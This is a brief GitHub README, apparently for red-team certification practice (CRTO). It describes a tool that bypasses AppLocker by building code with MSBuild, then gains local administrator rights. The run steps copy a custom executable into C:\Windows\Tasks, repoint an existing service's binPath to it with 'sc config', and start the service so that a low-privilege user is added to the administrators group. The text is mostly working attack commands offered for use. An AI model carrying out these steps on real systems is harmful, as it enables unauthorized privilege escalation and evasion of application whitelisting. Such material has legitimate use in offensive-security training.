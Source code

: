 # CRTO

Bypass AppLocker via MSBUILD, priv-esc via *service* binary to add low priv user to local administrators group.
## Build

```cmd
  C:\Windows\Microsoft.NET\Framework\v4.0.30319\MSBuild.exe esc.csproj
```
or
```cmd
  C:\Windows\Microsoft.NET\Framework64\v4.0.30319\MSBuild.exe esc.csproj
```
## Run

```
  copy bin\Release\AnyCPU\YourServiceName.exe C:\Windows\Tasks
  sc config svc_test binPath= "C:\Windows\Tasks\YourServiceName.exe"
  sc start svc_test
  net localgroup administrators
  logoff
```
